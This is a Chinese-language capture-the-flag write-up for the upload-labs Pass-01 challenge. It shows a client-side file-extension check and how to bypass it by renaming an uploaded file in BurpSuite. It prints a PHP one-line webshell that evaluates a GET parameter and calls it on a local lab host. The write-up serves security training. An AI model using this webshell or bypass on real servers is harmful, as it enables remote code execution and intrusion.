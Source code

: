 ## [[upload-labs](https://github.com/c0ny1/upload-labs)] [[Pass-01](http://127.0.0.1/Pass-01/index.php)] [[解题报告](https://exp-blog.com/safe/ctf/upload-labs/pass-01-file-extension/)]

------

## 题目

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

------

## 解题

从源码很明显可以知道，代码只对上传的 **文件名后缀** 做检验，因此可以 **从客户端绕过** 。

伪造一个图片文件，文件名为 `payload.png` ，内容为 PHP 的一句话木马 ：

```php
<?php eval(@$_GET['exp']); ?>
```

上传此文件后，因为文件后缀为 `.png` ，所以即使打开图片也无法解析 PHP 代码。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/01.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/02.png)


要绕过其实很简单，只需要用 BurpSuite 拦截上传文件的 POST 请求，然后修改 POST 内容中的文件名，把 `payload.png` 修改成 `payload.php` （注意 `Content-Type` 要确保为图片类型）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/03.png)

上传成功后，访问改名后的 `payload.php` 文件，并利用一句话木马执行 `phpinfo();` 命令：

```html
http://127.0.0.1/upload/payload.php?exp=phpinfo();
```

解析 `phpinfo();` 命令成功，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
